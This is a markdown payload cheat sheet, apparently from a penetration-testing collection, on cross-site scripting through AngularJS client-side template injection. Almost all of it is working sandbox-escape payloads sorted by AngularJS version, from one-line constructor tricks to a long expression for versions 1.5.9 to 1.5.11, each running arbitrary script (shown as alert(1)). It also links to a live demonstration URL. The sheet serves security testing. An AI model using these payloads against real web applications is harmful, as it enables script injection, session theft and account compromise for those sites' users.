 # XSS in Angular and AngularJS

## Client Side Template Injection

The following payloads are based on Client Side Template Injection.

### Stored/Reflected XSS - Simple alert in AngularJS

`ng-app` directive must be present in a root element to allow the client-side injection (cf. [AngularJS: API: ngApp](https://docs.angularjs.org/api/ng/directive/ngApp)).

> AngularJS as of version 1.6 have removed the sandbox altogether

AngularJS 1.6+ by [Mario Heiderich](https://twitter.com/cure53berlin)

```javascript
{{constructor.constructor('alert(1)')()}}
```

AngularJS 1.6+ by [@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265)

```javascript
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

Example available at [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=<brute+ng-app>%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)

AngularJS 1.6.0 by [@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) & [@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830)

```javascript
{{0[a='constructor'][a]('alert(1)')()}}
{{$eval.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}
```

AngularJS 1.5.9 - 1.5.11 by [Jan Horn](https://twitter.com/tehjh)

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
